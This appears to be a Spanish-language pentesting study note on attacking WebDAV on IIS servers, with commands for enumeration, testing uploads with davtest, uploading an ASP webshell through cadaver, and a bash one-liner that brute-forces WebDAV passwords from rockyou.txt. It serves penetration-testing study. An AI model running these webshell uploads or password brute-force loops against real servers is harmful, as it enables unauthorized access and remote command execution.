 # Explotación de WebDAV en IIS

Tags: #IIS #WebDav #Servidor #Windows 

* IIS = Internet Information Services y  es un servidor web para el sistema operativo Windows.
	* Soporta extensiones de archivos ejecutables:
		* .asp
		* .aspx
		* .config
		* .php

```bash 
❯ browsh --startup-url http://IP/Default.aspx/    # Enumeracion del buscador de un IIS en forma de GUI
```

Necesitamos credenciales validas para poder entrar al WebDav en la web
```bash 
❯ http://IP/webdav/
```

## Webshell en un IIS

```bash 
/usr/share/webshells/                # Ruta de la Webshell, estas son aplicaciones que se ejecutan en la web de forma interactiva y asi poder ejecutar comandos 

	# asp, aspx, cfm, jsp, laudanum, perl, php, seclists
```

## WebDAV en un IIS

```bash 
* davtest           # Usada para escanear, autenticar y explotar un WebDAV
* cadaver           # Soporta la subida y bajada de archivos, visualizacion, editar, mover/copiar, borrar, manipular y bloqueo.
```

Esta tool crea un directorio en el servidor y va subiendo archivos con diferentes extensiones además de ver cuales se pueden ejecutar. 
```bash 
❯ davtest -auth <user>:<passwd> -url http://IP/webdav    # Necesitamos credenciales validas, y nos checara que tipo de archivos puedes subir y ejecutar en el servidor 
```

```bash 
❯ cadaver http://IP/webdav           # Puedes acceder al contenido del servidor WebDAB, te preguntara las credenciales, esta tool te desplegara una consola
	❯ put /usr/share/webshells/asp/webshell.asp      # Asi subimos la webshell al servidor Webdav
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```

